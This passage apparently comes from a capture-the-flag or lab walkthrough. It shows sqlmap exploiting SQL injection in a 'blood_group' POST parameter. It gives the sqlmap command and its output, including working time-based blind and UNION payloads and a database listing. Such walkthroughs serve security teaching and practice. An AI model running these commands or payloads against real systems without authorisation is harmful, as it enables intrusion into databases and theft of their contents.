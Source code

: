 ```shell-session
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bt0q6qk024tmac6m4jkbh8l1h4
Connection: close

blood_group=B%2B
```

  
  
Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:  
  
`sqlmap -r req.txt -p blood_group --dbs`  

`**sqlmap -r <request_file> -p <vulnerable_parameter> --dbs**`

  

Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.

Database Enumeration

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group --dbs
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
```